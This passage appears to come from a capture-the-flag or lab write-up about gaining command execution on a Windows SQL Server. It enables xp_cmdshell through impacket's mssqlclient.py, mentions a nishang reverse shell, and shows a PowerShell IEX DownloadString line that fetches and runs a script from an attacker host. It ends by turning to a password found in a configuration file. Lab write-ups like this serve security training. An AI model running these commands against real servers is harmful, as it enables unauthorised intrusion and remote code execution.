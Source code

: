 With command execution on the target machine, we can now run a powershell reverse TCP from `nishang`, and we get access to the target host:

![NON](file-20250525185224247.png)

We could also have done this step manually from the `mssqlclient.py` from `impacket`:

```bash
mssqlclient.py $DOMAIN/sa:'<REDACTED>'@$FQDN

<SNIP>

SQL (sa  dbo@master)> xp_cmdshell
ERROR(DC01\SQLEXPRESS): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.

SQL (sa  dbo@master)> EXEC sp_configure 'show advanced options', 1
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> RECONFIGURE

SQL (sa  dbo@master)> EXEC sp_configure 'xp_cmdshell', 1
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> RECONFIGURE

SQL (sa  dbo@master)> xp_cmdshell "whoami"
output
--------------
sequel\sql_svc
```

`mssqlclient.py` can automate this process with the `enable_xp_cmdshell` command

```bash
SQL (sa  dbo@master)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

SQL (sa  dbo@master)> xp_cmdshell "powershell -Command IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.14.27:8000/test\")"
S
```

![NON](file-20250525191221192.png)

## Horizontal Privilege Escalation

From the `SQL2019` folder found at the root folder of the system, we can find another password on the `sql-Configuration.INI` file, which is used to configure the `SQL Server` installation. 
